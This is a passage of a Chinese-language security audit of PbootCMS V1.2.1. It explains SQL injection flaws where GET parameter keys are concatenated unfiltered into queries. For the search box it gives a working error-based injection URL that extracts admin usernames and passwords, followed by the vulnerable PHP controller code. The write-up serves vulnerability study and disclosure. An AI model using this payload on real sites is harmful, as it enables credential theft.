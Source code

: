 这里就将重要的方法分析一下了，其他无关的就删除掉避免影响阅读。
这里接收了外部了外部所有的get参数然后判断了开头的前4个字符是否 ext\_
开头，如果符合就直接拼接进入\$where2这个数组
然后带入数据库进行getList方法与getSpecifyList查询，而底层是字符串拼接，过滤了value没有过滤key所以有注入

0x08.4 前台搜索框注入
---------------------

### 0x08.4.1 漏洞利用

    url:http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Search/index?keyword=aaaa&updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123

![](resource/PbootCMSsql注入/media/rId41.png)

### 0x08.4.2 漏洞讲解

文件地址：PbootCMS-V1.2.1\\apps\\home\\controller\\SearchController.php
方法：index()

    // 骚操作 注入
        // parserSearchLabel
        public function index()
        {
            $content = parent::parser('search.html'); // 框架标签解析
            $content = $this->parser->parserBefore($content); // CMS公共标签前置解析
            $content = $this->parser->parserPositionLabel($content, 0, '搜索', url('/home/Search/index')); // CMS当前位置标签解析
            $content = $this->parser->parserSpecialPageSortLabel($content, 0, '搜索结果', url('/home/Search/index')); // 解析分类标签
            $content = $this->parser->parserSearchLabel($content); // 搜索结果标签
            $content = $this->parser->parserAfter($content); // CMS公共标签后置解析
            $this->cache($content, true);
        }

文件地址：apps\\home\\controller\\ParserController.php
方法：parserSearchLabel(

    进入以后 查看调用了 $content = $this->parser->parserSearchLabel($content);  方法
    // 解析内容搜索结果标签
    public function parserSearchLabel($content)
    {
      ...
      foreach ($_GET as $key => $value) {
        if (! ! $value = get($key, 'vars')) {
          $where2[$key] = $value;
        }
      }
      ...
      // 读取数据
      if (! $data = $this->model->getList($scode, $num, $order, $where1, $where2, $fuzzy)) {
        $content = str_replace($matches[0][$i], '', $content);
        continue;
      }
    }
